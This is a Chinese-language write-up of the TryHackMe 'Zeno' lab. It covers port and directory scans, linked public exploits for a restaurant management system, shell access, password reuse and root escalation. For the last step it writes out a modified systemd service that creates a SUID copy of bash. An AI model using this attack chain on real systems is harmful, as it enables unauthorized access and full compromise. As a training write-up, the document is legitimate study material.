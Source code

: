 ```yaml
---
sidebar_position: 110
tags: [Easy, Linux, 信息泄露, services, 文件上传, SUDO]
title: "Zeno"
description: "Zeno"
sidebar_label: "Zeno"
slug: /tryhackme/110
---
```


# Zeno

## 端口扫描

```bash
root@ip-10-10-175-241:~/zeno# nmap -sTCV -p 22,12340 --min-rate 1000 10.10.31.87

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-23 01:50 BST
Nmap scan report for ip-10-10-31-87.eu-west-1.compute.internal (10.10.31.87)
Host is up (0.00019s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (EdDSA)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
MAC Address: 02:17:43:A8:8B:CF (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds
```

### 12340

进行目录扫描

```bash
root@ip-10-10-175-241:~/zeno# gobuster dir -uhttp://10.10.31.87:12340/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.87:12340/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/23 01:57:00 Starting gobuster
===============================================================
/index.html (Status: 200)
/rms (Status: 301)
```

访问发现的 rms 页面我发现其是一个管理系统, 所以我就查找有没有相关的漏洞:

- [Restaurant Management System 1.0 - Remote Code Execution](https://www.exploit-db.com/exploits/47520) : 文件上传漏洞, 可以利用
- [Restaurant Management System 1.0 SQL Injection](https://packetstormsecurity.com/files/171776/Restaurant-Management-System-1.0-SQL-Injection.html) : SQLi

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132932.png)

利用上面发现两个 exp我分别进行了操作:

- sqli : 读取数据库的用户表但是什么都没有获取到
- 文件上传漏洞 利用此来获取 Shell

## 后渗透

### apache

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132932-1.png)

### apache —> edward

获取到 Shell 之后我进行了一系列的操作:

- 查看数据库配置文件  数据库其他表中内容
- 查看属于用户 edward 的文件,

但是都失败了, 我上传了 [linpeas.sh](http://linpeas.sh) 文件进行枚举,在其中存在一些特殊之处

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132932-2.png)

这边泄露了一个密码同时告诉我们一个可写的service 文件, 我们不妨考虑密码重用的问题

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132932-3.png)

### edward —> root

我发现用户 edward 具有重启计算机的特权, 所以我们不妨修改一下上面发现的 service 文件进行利用

```bash
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/bash;chmod u+s /home/edward/bash"

[Install]
WantedBy=multi-user.target
[edward@zeno ~]$ ls -al
total 964
drwxr-xr-x. 3 root root      139 Sep 23 04:08 .
drwxr-xr-x. 3 root root       20 Jul 26  2021 ..
-rwsr-xr-x. 1 root root   964536 Sep 23 04:08 bash
```